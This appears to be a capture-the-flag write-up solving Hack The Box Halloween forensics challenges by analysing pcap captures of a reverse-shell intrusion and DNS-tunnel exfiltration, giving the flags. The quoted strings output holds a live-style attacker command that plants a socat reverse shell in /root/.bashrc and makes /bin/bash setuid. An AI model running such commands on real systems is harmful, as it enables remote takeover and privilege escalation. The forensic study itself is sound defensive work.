 # **Wrong Spooky Season**
```
"I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us.
I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. 
Analyze the the network traffic and find how the scary ghosts got in and what they did.
```

First challenge, they give us one pcap file. There're two ways you can solve this.

*Unintended solution:*

You can simply use `strings` to see what inside the pcap file.

```
┌──(kali㉿devilmachine)-[/mnt/d/WSL_LAB/Workplace/htb-boo/forensics_wrong_spooky_season]
└─$ strings *.pcap
...
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
VDc0c
'"FO
'"FO
I;r?
ls -lha
'"FO
'"FO
I;rtotal 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
```

So there is a base64 encoded string. Reverse it then decode, we have the flag.

*Intended solution:*

Open the pcap file then follow TCP stream to the last. Here is the result:

~pic~


## FLAG: HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
___

# **Trick or Breach**
```
Our company has been working on a secret project for almost a year. None knows about the subject, although rumor is that it is about an old Halloween legend where an old witch in the woods invented a potion to bring pumpkins to life, but in a more up-to-date approach.
Unfortunately, we learned that malicious actors accessed our network in a massive cyber attack. Our security team found that the hack had occurred when a group of children came into the office's security external room for trick or treat.
One of the children was found to be a paid actor and managed to insert a USB into one of the security personnel's computers, which allowed the hackers to gain access to the company's systems.
We only have a network capture during the time of the incident. Can you find out if they stole the secret project?
```

We have another pcap file in this challenge. Let's see what inside:

~pic~

If you notice, there're some strange URLs that were captured during the transfering data. This is DNS Tunneling - one of the real world attack. Those strange URLs that you can see in wireshark were encoded or encrypted. Let's find out by extracting those URLs.

I filtered the query IP the copied whole data to a file

~pic~

```
1	0.000000	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xa49f A 504b0304140008080800a52c47550000000000000000000000.pumpkincorp.com
3	1.062969	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xdd23 A 0018000000786c2f64726177696e67732f64726177696e6731.pumpkincorp.com
5	2.069426	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xcf3f A 2e786d6c9dd05d6ec2300c07f013ec0e55de695a181343145e.pumpkincorp.com
7	3.155776	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xb53f A d04e300ee0256e1b918fca0ea3dc7ed14a36697b011e6dcb3f.pumpkincorp.com
9	4.236338	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x6195 A f9efcd6e74b6f84462137c23eab212057a15b4f15d230eef6f.pumpkincorp.com
11	5.254457	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x5634 A b395283882d76083c7465c90c56efbb41935adcfbca722ed7b.pumpkincorp.com
13	6.298151	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xacfd A 5ea7b2117d8cc35a4a563d3ae0320ce8d3b40de420a6923aa9.pumpkincorp.com
15	7.319849	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x8482 A 09ce497656ceabea45f240089a7bc4b89f26e2eac1039a03e3.pumpkincorp.com
```

Then I wrote this script to extract the encoded/encrypted parts.

```py
f = open('qry.txt','r').readlines()
data = [i.split()[-1].replace('.pumpkincorp.com','') for i in f]
data = "".join(data)
wb = bytes.fromhex("".join(data))
wf = open('sus','wb')
wf.write(wb)
```
## FLAG: HTB{M4g1c_c4nn0t_pr3v3nt_d4t4_br34ch}
___
# **Halloween Invitation**
```
An email notification pops up. It's from your theater group. Someone decided to throw a party. The invitation looks awesome, but there is something suspicious about this document. Maybe you should take a look before you rent your banana costume.
```





